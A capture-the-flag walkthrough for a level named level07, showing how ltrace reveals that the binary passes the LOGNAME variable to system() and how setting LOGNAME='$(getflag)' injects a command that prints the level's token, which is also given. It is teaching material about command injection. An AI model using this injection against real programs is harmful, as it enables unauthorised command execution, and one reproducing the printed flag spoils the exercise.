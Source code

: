 
# Resources for level07

## Walkthrough to capture the flag:

### Step 1: Inspect the binary behavior with `ltrace`
```bash
ltrace ./level07
```

> Output (simplified):
```
getegid()                 = 2007
geteuid()                 = 2007
setresgid(2007, 2007, 2007) = 0
setresuid(2007, 2007, 2007) = 0
getenv("LOGNAME")         = "level07"
asprintf(...)             = ...
system("/bin/echo level07") = ...
```

> The binary fetches the environment variable `LOGNAME` and then executes it via `/bin/echo`. This allows for **command injection** by manipulating `LOGNAME`.

---

### Step 2: Inject a command via the `LOGNAME` environment variable

```bash
export LOGNAME='$(getflag)'
```

> This sets `LOGNAME` to a shell substitution. When `system("/bin/echo $LOGNAME")` is executed, it becomes:

```bash
/bin/echo $(getflag)
```

> Which runs `getflag` and prints the result.

---

### Step 3: Execute the vulnerable binary

```bash
./level07
```

> Output:

```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## ✅ Final Flag

```
fiumuikeil55xe9cu4dood66h
```

---

## ✅ Summary

- **Vulnerability**: Unsanitized use of environment variable in `system()`
- **Exploit**: `export LOGNAME='$(getflag)'`
- **Flag**: `fiumuikeil55xe9cu4dood66h`
